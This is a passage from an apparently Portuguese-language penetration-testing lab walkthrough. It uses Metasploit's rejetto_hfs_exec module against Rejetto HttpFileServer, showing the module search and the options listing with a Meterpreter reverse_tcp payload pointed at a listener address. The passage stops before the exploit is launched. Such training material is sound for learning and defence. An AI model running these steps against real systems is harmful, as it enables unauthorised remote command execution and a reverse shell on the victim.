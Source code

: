 Agora que sabemos que a aplicação é vulnerável à execução de comando remoto, vamos explorar essa vulnerabilidade utilizando o `Metasploit`.

Vamos abrir o `Metasploit` com o comando `msfconsole` e pesquisar `rejetto`:

```bash
root@INE:~# msfconsole -q
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec
```

O `Metasploit` nos retorna um módulo de exploração para a vulnerabilidade encontrada, vamos utilizar esse módulo para explorar a vulnerabilidade atraves do comando `use 0`:

```bash
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Agora que o módulo foi carregado, vamos configurar as opções do módulo utilizando o comando `show options` para listar as opções disponíveis e o comando `set` para configurar as opções:

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > show options 

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Meta
                                         sploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
                                          machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.4.3        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```